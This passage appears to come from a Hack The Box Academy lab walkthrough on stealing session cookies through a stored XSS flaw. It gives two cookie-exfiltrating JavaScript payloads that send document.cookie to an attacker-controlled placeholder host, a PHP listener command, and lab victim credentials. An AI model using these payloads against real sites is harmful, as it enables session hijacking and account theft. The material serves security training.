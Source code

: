 &#x20; Cross-Site Scripting (XSS)

```shell-session
root@htb[/htb]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

Before we simulate the attack, let us restore Ela Stienen's original Email and Telephone (since we found no XSS in these fields and also want the profile to look legitimate). Now, let us place the below payload in the _Country_ field. There are no specific requirements for the payload; we just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

Payload:

Code: javascript

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

**Note**: If you're doing testing in the real world, try using something like [XSSHunter](https://xsshunter.com/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.

A sample HTTPS>HTTPS payload example can be found below:

Code: javascript

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

**Simulate the victim**

Open a `New Private Window`, navigate to `http://xss.htb.net` and log in to the application using the credentials below:

* Email: smallfrog576
* Password: guitars

This account will play the role of the victim!

Now, navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`. This is the attacker-crafted public profile that hosts our cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

You should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/52.png)

Terminate the PHP server with Ctrl+c, and the victim's cookie will reside inside `cookieLog.txt`

![image](https://academy.hackthebox.com/storage/modules/153/53.png)

You can now use this stolen cookie to hijack the victim's session!
